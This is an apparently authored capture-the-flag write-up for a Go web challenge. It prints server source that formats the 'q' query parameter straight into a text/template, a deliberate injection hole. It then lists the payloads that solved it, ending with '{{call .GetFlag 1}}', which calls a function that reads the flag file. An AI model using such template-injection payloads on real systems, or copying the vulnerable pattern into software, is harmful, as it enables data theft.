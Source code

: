 # Go Template
web challenge with go template injection

> Simple go page with templates
> http://52.78.16.36:35002

```go
package main
import (
    "fmt"
    "log"
    "net/http"
    "os"
    "text/template"
)

type User struct {
    ID       int
    Email    string
    Password string
    GetFlag  func(a int) string
}

func main() {
    user1 := User{1, "user@go-template.com", "gopass", func(a int) string {
        data, err := os.ReadFile("flag")
        if err != nil {
            log.Panic(err)
        }
        return string(data)
    }}

    http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        var tmpl = fmt.Sprintf(`
      <html>
      <head>
      <title>go template</title>
      </head>
      <h1>can you exploit it?</h1>
      <p>%s</p>
      </html>`,
            r.URL.Query()["q"])
        t := template.Must(template.New("page").Parse(tmpl))
        err := t.Execute(w, user1)
        if err != nil {
            fmt.Println(err)
        }
    })
    http.ListenAndServe(":3000", nil)
}
```

We notice that the `q` query allows for template injection, e.g. `http://52.78.16.36:35002/?q={{7*7}}`

We also notice that the template is being executed with the `user1` object, so we can get the `user1` properties with `http://52.78.16.36:35002/?q={{.Password}}`

so we use the `call` thingy (this took like 6 hours of digging the web over 2 days) to do `http://52.78.16.36:35002/?q={{call .GetFlag 1}}` and it gives us the flag